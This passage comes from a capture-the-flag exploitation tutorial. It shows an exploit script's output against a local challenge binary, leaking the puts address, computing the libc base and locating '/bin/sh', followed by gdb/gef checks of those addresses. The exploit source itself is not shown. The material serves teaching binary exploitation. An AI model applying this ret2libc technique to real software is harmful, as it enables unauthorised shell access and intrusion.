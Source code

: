 Let's continue the process with `continue`:-

```r
gef➤  continue
Continuing.

```

Now, resuming the script:-

```r
d4mianwayne@oracle:~/pwn1$ python3 xpl.py 
[*] '/home/d4mianwayne/pwn1/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './chall': pid 14517
[*] Paused (press any to continue)
[*] puts@libc : 0x7effdfd759c0
[*] libc      : 0x7effdfcf5000
[*] '/bin/sh' : 6295888
[*] Switching to interactive mode

Welcome to the world of Pwning
I'd like to know the name of brave warrior  
$  
```


---

```r
Welcome to the world of Pwning
I'd like to know the name of brave warrior  
$  
```
 
This is printed because we called the `main` again.

---

Now, we will Interrupt the execution of program inside gdb to check if the address are correct:-

```r
gef➤  p puts
$1 = {int (const char *)} 0x7effdfd759c0 <_IO_puts>
gef➤  
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/d4mianwayne/pwn1/chall
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/d4mianwayne/pwn1/chall
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/d4mianwayne/pwn1/chall
0x0000000001987000 0x00000000019a8000 0x0000000000000000 rw- [heap]
0x00007effdfcf5000 0x00007effdfedc000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.27.so

-- snip --
gef➤  x/s 6295888
0x601150:	"/bin/sh"
```
